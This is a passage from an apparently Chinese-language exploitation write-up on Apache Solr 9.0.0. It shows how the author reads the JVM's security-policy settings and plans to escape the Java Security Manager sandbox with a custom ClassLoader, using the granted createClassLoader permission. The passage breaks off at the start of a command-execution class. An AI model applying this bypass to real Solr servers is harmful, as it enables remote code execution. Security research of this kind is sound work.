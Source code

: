 ```plain
>(
Exp
.
java
:
10
)

...
```

在控制台日志的异常信息中，可以看到缺少了 `execute`的权限，而在堆栈中可以看到正是 `zk_backup_0.configs.conf1.Exp`中的 `ProcessBuilder.start()`方法触发的，因此我们不可以直接使用其执行命令

我们进入容器看一下 java 启动参数

```plain
ps aux
|
grep java
# solr         585  1.6 10.4 10480400 843664 pts/0 Sl   Feb21   5:15 /opt/java/openjdk/bin/java -server -Xms512m -Xmx512m -XX:+UseG1GC -XX:+PerfDisableSharedMem -XX:+ParallelRefProcEnabled -XX:MaxGCPauseMillis=250 -XX:+UseLargePages -XX:+AlwaysPreTouch -XX:+ExplicitGCInvokesConcurrent -Xlog:gc*:file=/var/solr/logs/solr_gc.log:time,uptime:filecount=9,filesize=20M -Dsolr.jetty.inetaccess.includes= -Dsolr.jetty.inetaccess.excludes= -DzkClientTimeout=30000 -DzkRun -Dsolr.log.dir=/var/solr/logs -Djetty.port=8983 -DSTOP.PORT=7983 -DSTOP.KEY=solrrocks -Duser.timezone=UTC -XX:-OmitStackTraceInFastThrow -XX:OnOutOfMemoryError=/opt/solr/bin/oom_solr.sh 8983 /var/solr/logs -Djetty.home=/opt/solr/server -Dsolr.solr.home=/var/solr/data -Dsolr.data.home= -Dsolr.install.dir=/opt/solr -Dsolr.default.confdir=/opt/solr/server/solr/configsets/_default/conf -Dlog4j.configurationFile=/var/solr/log4j2.xml -Dsolr.jetty.host=0.0.0.0 -Xss256k -Djava.security.manager -Djava.security.policy=/opt/solr/server/etc/security.policy -Djava.security.properties=/opt/solr/server/etc/security.properties -Dsolr.internal.network.permission=* -DdisableAdminUI=false -Dsolr.log.muteconsole -jar start.jar --module=http --module=requestlog --module=gzip
```

可以看到用于设置 Java Security Manager 的参数 `-Djava.security.manager-Djava.security.policy=/opt/solr/server/etc/security.policy-Djava.security.properties=/opt/solr/server/etc/security.properties`

可知配置文件在 `/opt/solr/server/etc/security.policy`，我们可以分析下有什么绕过的方法

> 如果下载了源码的话，也可以直接在 `solr-releases-solr-9.0.0\solr\server\etc`中找到 `security.policy`，绕过 java 沙箱可以参考这篇文章：https://www.mi1k7ea.com/2020/05/03/浅析 Java 沙箱逃逸/

### 自定义 ClassLoader 绕过

一通研究后发现里面有这个权限： `permission java.lang.RuntimePermission"createClassLoader";`

也就是我们可以自定义一个 ClassLoader 来进行绕过

原理具体看上面提到的文章，这里直接给一个可以在 solr 下利用的 demo

命令执行类

```plain
package zk_backup_0.configs.conf1;

import java.io.BufferedReader;
import java.io.File;
import java.io.FileOutputStream;
import java.io.InputStreamReader;
import java.security.AccessController;
import java.security.PrivilegedAction;

public class ExpBypassExec {

    public ExpBypassExec() {}

    static {
```